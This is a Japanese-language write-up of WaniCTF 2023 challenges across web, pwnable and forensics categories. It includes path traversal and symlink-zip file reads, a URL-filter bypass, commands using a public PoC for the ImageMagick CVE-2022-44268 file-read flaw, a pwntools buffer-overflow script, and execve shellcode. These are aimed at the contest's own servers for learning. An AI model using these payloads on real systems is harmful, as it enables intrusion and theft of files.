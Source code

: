 # WaniCTF 2023 Writeup

## 目次

- Web
  - [IndexedDB](#IndexedDB)
  - [Extract Service 1](#Extract-Service-1)
  - [Extract Service 2](#Extract-Service-2)
  - [screenshot](#screenshot)
  - [certified1](#certified1)
- Pwnable
  - [netcat](#netcat)
  - [only once](#only-once)
  - [ret2win](#ret2win)
  - [shellcode_basic](#shellcode_basic)
- Forensics
  - [Just_mp4](#Just_mp4)
  - [whats_happening](#whats_happening)


## IndexedDB

`/`にアクセスすると`/1ndex.html`にリダイレクトされているので、`curl https://indexeddb-web.wanictf.org/`を実行するとIndexedDBにフラグを格納するJSが見える。

## Extract Service 1

`target`パラメータに渡したパスがそのまま`extractTarget`で使えるため、`target`パラメータに`../../../../../../flag`などを設定してPOSTする。

## Extract Service 2

`/flag`へのシンボリックリンクをzipファイルに含めることでフラグを読み込ませることができる。`document.xml`という名前の`/flag`へのシンボリックリンクを`word`ディレクトリの中に入れたzipをPOSTするとフラグが得られる。

## certified1

ImageMagickのバージョンが古く、CVE-2022-44268が使える。https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC を使えばフラグが得られる。適当なtest.pngから`$ pngcrush -text a "profile" "/flag" test.png`でPNGファイルを作り、送信して返ってきた画像から`$ identify -verbose responce.png`で得られる。

## screenshot

URLのバリデーションが`if (!req.query.url.includes("http") || req.query.url.includes("file")) {`となっており、`File:///http/../flag.txt`などにすることで容易に回避できる。

## netcat

netcatで繋ぎ、3回計算問題を解けばフラグがもらえる。私は騙されて100回解く自動化スクリプトを書きました。

## only once

適当に`AAAAAAAAA`のように8文字以上入れるとBoFが起きて`chall`の値が負になる。あとは3回計算問題を解けばシェルが取れる。`cat FLAG`でフラグが得られる。

## ret2win

BoFがあり`win`関数に飛ばせばシェルが取れる。`win`関数のアドレスを`objdump -d ./chall | grep win`などで確認すると`0x401369`にあることがわかる。

```py
from pwn import *


io = remote("ret2win-pwn.wanictf.org", 9003)

print(io.recvuntil(b"your input (max. 48 bytes) > "))
BUFSIZE = 32
win_addr = p64(0x401369)
io.sendline(b"A" * (BUFSIZE + 8) + win_addr)

io.interactive()
```

## shellcode_basic

任意のシェルコードを実行してくれる。x64で`/bin/sh`を実行するシェルコードをググる。https://github.com/yyanyi213/pwn/blob/master/shellcode にある`\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x52\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05`を使わせてもらった。

```py
from pwn import *

#pc = process("./chall")
pc = remote("shell-basic-pwn.wanictf.org", 9004)
shell_code = b"\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x52\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"  # PUT YOUR SHELL CODE HERE
pc.sendline(shell_code)
pc.interactive()
```

## Just_mp4

`$ exiftool chall.mp4`をすると`Publisher`にフラグがある。

## whats_happening

`$ file updog`をすると`updog: ISO 9660 CD-ROM filesystem data 'ISO Label'`と出る。マウントしてファイルを確認すると、画像ファイルにフラグが書かれている。